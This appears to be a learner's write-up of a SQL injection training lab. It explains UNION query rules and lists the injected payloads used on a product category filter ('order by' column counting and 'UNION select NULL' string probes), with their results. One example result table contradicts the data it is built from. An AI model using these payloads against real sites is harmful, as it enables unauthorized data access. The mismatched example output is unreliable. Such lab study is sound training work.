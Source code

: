 # Description:
 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data. 


# Analysis:
SQLi - Product category filter

End Goal: Determine the number of columns retuerned by the query.

Background (unions):

Table 1       
| a | b |     
| - | - |     
| 1 | 2 |     
| 3 | 4 |     

Table 2
| c | d |
| - | - |
| 5 | 6 | 
| 7 | 8 |


Query #1: select a, b from table1
Result:
1,2
3,4

Query #2: select a, b from table1 UNION select c,d from table2
Result:
1,2
3,4
2,3
4,5

Rule: 
 - The number and the order of the columns must be the same in all queries.
 - The data types must be compatible.

    ## In a Union based SQLi attack we have a couple of steps lets enumerate the first two:
        -  Step #1: Determine the number of columns. (ref-lab-03)
        -  Step #2: Determine the data type of the columns. (ref-lab-04[this])

    ## Determine the data type of the columns once you have the number of columns:
        - We know from lab-03 that we have 3 columns in our query
        - So we are going to iterativaly put a data type in our query: 
        
            For column 1: select a, b, c from table1 UNION select 'a', NULL, NULL 
            -> error -> the first column is not a string value 
            -> success -> the first column is a string value
        
            For column 2: select a, b, c from table1 UNION select  NULL, 'a', NULL 
            -> error -> the second column is not a string value 
            -> success -> the second column is a string value 
        
            For column 3: select a, b, c from table1 UNION select  NULL, NULL, 'a' 
            -> error -> the third column is not a string value 
            -> success -> the third column is a string value 

# Execution

Step #1 Determining the number of columns, the query will be placed like this example: /filter?category=Gifts' order by 4-- :
    
    query1: ' order by 1-- (If this query give us an error there is only 0 columns)
    
    query2: ' order by 2-- (If this query give us an error there is only 1 columns)
    
    query3: ' order by 3-- (If this query give us an error there is only 2 columns)
    
    query4: ' order by 4-- (If this query give us an error there is only 3 columns) -> err -> There are only three columns

Step #2 Determine the data type of the columns, the query will be placed like this example: /filter?category=Gifts' UNION select 'a', NULL, NULL :

    query1: ' UNION select 'a', NULL, NULL-- (If this query doesn't give us an error the first column is a string) -> err ->likely because it's and id field 
    query2: ' UNION select NULL, 'a', NULL-- (If this query doesn't give us an error the second column is a string) -> success -> string type
    query2: ' UNION select NULL, NULL, 'a'-- (If this query doesn't give us an error the third column is a string) -> err -> not a string type

To complete the excercise we need to retrieve 'lP6xtu':
    query: ' UNION select NULL, 'lP6xtu', NULL-- // Exercise solved!!